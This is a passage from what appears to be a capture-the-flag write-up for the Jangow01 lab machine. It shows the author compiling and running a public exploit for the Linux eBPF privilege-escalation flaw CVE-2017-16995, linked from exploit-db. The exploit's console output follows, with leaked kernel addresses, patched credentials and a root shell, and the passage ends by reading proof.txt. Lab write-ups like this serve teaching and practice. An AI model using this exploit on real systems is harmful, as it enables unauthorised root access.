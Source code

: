 I used [the first in the list](https://www.exploit-db.com/exploits/45010) :  

```plain
jangow01@jangow01:~$ gcc -o cve-2017-16995 cve-2017-16995.c
jangow01@jangow01:~$ ./cve-2017-16995 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003c3d5300
[*] Leaking sock struct from ffff8800374b0000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880038116cc0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880038116cc0
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) grupos=0(root),1000(desafio02)
# cd /root
# ls
proof.txt
# cat proof.txt 
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&                          
                       @  @@@@@@@@@@@@@@@&#   #@@@@@@@@&(.    /&@@@@@@@@@@                          
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@                          
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@                          
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&                    
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&                    
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&                    
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@                   
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @                   
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@                  
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@                 
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@                 
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@                 
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@                  
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@                  
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@                   
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@                    
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&                    
```